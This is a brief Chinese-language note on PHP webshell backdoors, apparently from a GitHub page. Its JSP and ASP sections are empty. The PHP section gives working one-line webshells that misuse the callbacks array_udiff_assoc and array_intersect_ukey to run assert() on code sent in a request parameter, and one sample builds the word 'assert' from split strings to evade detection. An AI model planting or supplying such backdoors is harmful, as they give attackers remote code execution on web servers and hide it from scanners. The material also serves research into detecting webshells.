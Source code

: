WebShell后门研究

## 0x01 PHP篇

### 可做后门的回调函数

- array_udiff_assoc

```
array_udiff_assoc(array("phpinfo();"), array(1), "assert");
```

客户端一句话

```
<?php
/**
* Noticed: (PHP 5 >= 5.4.0, PHP 7)
*
*/
$password = "LandGrey";
array_udiff_assoc(array($_REQUEST[$password]), array(1), "assert");
?>
```

- array_intersect_ukey

```
<?php
/**
 * Noticed: (PHP 5 >= 5.4.0, PHP 7)
 *
 */
$password = "LandGrey";
$ch = explode(".","hello.ass.world.er.t");
array_intersect_ukey(array($_REQUEST[$password] => 1), array(1), $ch[1].$ch[3].$ch[4]);
?>
```

## 0x02 JSP篇

## 0x03 ASP篇

